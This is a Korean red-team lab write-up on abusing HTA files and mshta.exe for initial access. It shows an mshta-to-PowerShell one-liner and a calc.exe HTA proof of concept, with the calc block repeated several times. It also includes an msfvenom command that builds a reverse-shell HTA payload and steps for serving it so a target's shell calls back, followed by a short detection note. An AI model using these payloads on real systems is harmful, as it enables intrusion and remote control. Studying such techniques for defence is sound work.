 # HTA

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다. HTML, CSS, JavaScript 등의 웹 기술을 사용하여 윈도우 응용 프로그램과 같은 유저 경험을 제공할 수 있다. HTA는 일반적으로 .hta 확장자며 Mshta.exe라는 유틸리티로 실행된다.

Mshta.exe는 네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인! 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다. 

![](../../obsidian_resources/Pasted%20image%2020230501172222.png)


## 보안적인 측면
일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

아래 실습 예제는 굉장히 간단히 예제 임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다 ^^. 

기본적으로 아래 3 항목을 비활성화 한뒤 시작한다. 
![](../../obsidian_resources/Pasted%20image%2020230501202117.png)

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

https://attack.mitre.org/techniques/T1218/005/

일단, 아래와 같이 mshta를 실애하면 powershell.exe 를 실행 Hello GROOT!를 보여준다.
```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

HTA -> VBScript 코드를 실행할 수 있다는것 자체가 이미 오용되기에 충분한 시나리오다!

![](../../obsidian_resources/Pasted%20image%2020230501210226.png)

## 실습 

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을수 있다.
예를들어, 아래와 같은 시나리오를 통해 리버스 쉘을 받아 볼수도 있다.
-   LNK -> CMD -> Powershell ->  RAT
-   ZIP -> Password protected PDF + "password.lnk" -> RAT
-   DOCx -> LNK -> remote HTA -> Powershell ->  RAT
- 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

## 기본 HTA 스크립트 예제제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
HTML Application을 통해 계산기가 실행되는 것을 알 수 있다.
![](../../obsidian_resources/Pasted%20image%2020230501171712.png)


## Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자.  shell_reverse_tcp HTA 페이로드를 만들어 준다.

- LHOST: 칼리 로컬 호스트 로컬 IP
- LPORT: Listener 포트 

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.
![](../../obsidian_resources/Pasted%20image%2020230501175738.png)

브라우저에서 http://192.168.137[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](../../obsidian_resources/Pasted%20image%2020230501175551.png)

### 대응 방안
- CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서  이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.